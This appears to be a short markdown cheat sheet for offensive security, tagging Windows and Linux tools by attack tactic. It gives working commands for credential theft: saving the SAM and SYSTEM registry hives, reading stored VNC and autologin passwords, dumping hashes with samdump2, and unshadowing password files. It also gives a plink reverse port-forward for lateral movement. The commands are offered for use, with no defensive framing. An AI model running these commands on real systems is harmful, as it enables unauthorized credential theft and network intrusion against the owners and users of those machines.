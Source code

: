 ## generate exe from python file in windows
- `python pyinstaller.py --onefile <pythonscript>`

---

# reg.exe
- service: sam
- tactics: credential_access

## dump sam database
- `reg save HKLM\sam sam`
- `reg save HKLM\system system`

## query vnc passwords
- `reg query "HKCU\Software\ORL\WinVNC3\Password"`

## Windows autologin
- `reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"`
- `reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"`

---

# samdump2
- service: sam
- tactics: credential_access

- `samdump2 SYSTEM SAM > hashes.db`

---

# unshadow
- service: sam
- tactics: credential_access

## unshadow /etc/passwd file
- `unshadow shadow passwd > unshadow.db`

---

# plink.exe
- service: all
- tactics: lateral_movement

## Port forward using plink
- `plink.exe -l username -pw password target-ip -R 8080:127.0.0.1:8080`

---
